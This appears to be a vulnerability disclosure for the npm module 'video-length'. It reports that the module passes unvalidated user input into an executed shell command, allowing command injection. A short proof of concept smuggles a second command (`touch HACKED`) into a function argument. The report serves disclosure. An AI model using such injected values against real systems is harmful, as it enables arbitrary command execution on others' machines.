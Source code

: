 # Description

The `video-length` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
const VideoLength = require('video-length');
VideoLength('sss"; touch HACKED; #');

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i video-length # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
